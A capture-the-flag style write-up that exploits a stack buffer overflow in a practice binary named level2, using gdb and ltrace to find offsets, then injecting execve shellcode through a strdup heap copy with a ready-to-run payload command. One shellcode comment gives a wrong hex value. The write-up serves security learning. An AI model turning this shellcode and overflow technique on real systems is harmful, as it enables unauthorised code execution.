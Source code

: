 In the code, we can see that there is a call to `gets` and `strdup`. Moreover, we want to not be caught by the `if`. We could use a shell code to execute a shell,
store it in the buffer that will be copied with the `strdup` and do a buffer overflow to set `eip` to the address of our copy of our shell code.

## Investigation

1) We need to know where our buffer is written. We will give `aaaa` as input, print the stack and see where the value `0x61616161` is.
    ```
    (gdb) x/12xw $esp
    0xbffff6b0:     0xbffff6cc      0x00000000      0x00000000      0xb7e5ec73
    0xbffff6c0:     0x080482b5      0x00000000      0x00000000      0x61616161
    0xbffff6d0:     0xbffff800      0x0000002f      0xbffff72c      0xb7fd0ff4
    ```
    We can see that our buffer is written at `0xbffff6cc`. 

2) Now we need to know where `eip` is saved.
    ```
    (gdb) i f
    Stack level 0, frame at 0xbffff720:
     ...
     Saved registers:
      ebp at 0xbffff718, eip at 0xbffff71c
    ```
    `eip` is saved at `0xbffff71c` we can then calculate the offset between our buffer and `eip`, `0xbffff71c - 0xbffff6cc = 0x50 = 0d80`.

3) Finally, we need to know where `strdup` is going to save the copy of our buffer.
     ```bash
     $ ltrace ./level2
     ...
     strdup("oui")                                                             = 0x0804a008
     ...
     ```
     `strdup` store his value at `0x0804a008`.

## Exploit

We will use the shell code `\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80`, it's execute this
```c
int main() {
  char sc[] = "\x6a\x0b" // push byte +0xb
  "\x58" // pop eax
  "\x99" // cdq
  "\x52" // push edx
  "\x68\x2f\x2f\x73\x68" // push dword 0x68732f2f
  "\x68\x2f\x62\x69\x6e" // push dword 0x6e69922f
  "\x89\xe3" // mov ebx, esp
  "\x31\xc9" // xor ecx, ecx
  "\xcd\x80"; // int 0x80
   
  ((void (*)()) sc)();
}
```
It has a length of 21 characters, therefore it will be necessary to fill `80 - 21 = 59` characters to rewrite `eip`.

Our payload will be like `"<shell code>" + "a"*<offset - shell code length> + "<strdup address>"`.
In our case, the payload becomes: `"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "a"*59 + "\x08\xa0\x04\x08"`

```shell
(cat <(python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "a"*59 + "\x08\xa0\x04\x08"') -) | ./level2
```
